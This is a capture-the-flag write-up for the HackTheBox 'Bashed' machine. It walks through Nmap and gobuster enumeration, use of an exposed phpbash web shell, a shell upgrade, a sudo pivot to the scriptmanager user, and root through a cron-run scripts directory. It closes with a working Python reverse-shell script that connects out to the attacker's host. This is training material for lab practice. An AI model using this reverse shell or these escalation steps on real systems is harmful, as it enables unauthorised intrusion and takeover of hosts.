

HackTheBox - Bashed Writeup
Table of Contents
Nmap
As always. I’m gonna run the Nmap scan. Here is the result of the scan.
result
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
port 80/HTTP is the only one open.
Http
Let’s take a look at the website.
Turns out, the phpbash is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.
https://github.com/Arrexel/phpbash
On the GitHub page. The phpbash location looks like at the uploads directory. However, when I went to the uploads directory it’s nothing there.

Gobuster
So, I’m gonna run the gobuster to search all hidden directories. It found a bunch of directories but the /dev really caught my eye.

/dev
Let’s take a look at the /dev directory. Wow! found it. Now, I’m just clicking the phpbash.php and I’ve got the web shell as the www-data user.

Reverse Shell
Let’s try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the base64 method seems to be working.
So, the first thing is I’m gonna encoded this bash reverse shell into base64
Then, I’m gonna put it into the input of phpbash. Down below; is a syntax should be. Make sure to set up an nc listener first.
Upgrade shell using python
YES! I got the shell. Let’s upgrade this shell into a proper shell. First, let’s import called /bin/bash using python with pty module. Then, export the terminal to have the clear screen and press Ctrl + Z to put it, into the background. Last, type the stty raw -echo; fg and press Enter 2 times, and there you go!
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z
-> stty raw -echo; fg
User scriptmanager
The first thing a love to do when get access to the machine. I love to check the sudo permission. Let’s check it with sudo -l. Shockingly, I can run the sudo with the www-data user.

Looks like, I can run any command with the scriptmanager user without authentication. Well, let’s change into that user with this syntax;
sudo -u scriptmanager bash
/scripts
This is caught by surprise. I found the /scripts directory located in the base /. Luckily, I already become the scriptmanager. Let’s take a peek into the particular directory.

So, the directory content 2 files are called test.py and test.txt. However, the test.txt is owned by the root user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a cronjob.
Root Shell
What we know. Any python file in that directory got to execute. So, I’m gonna make a python file that contains reverse shell. After, all set up just wait for a minute, and BOOM!
make sure to setup nc listener first
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")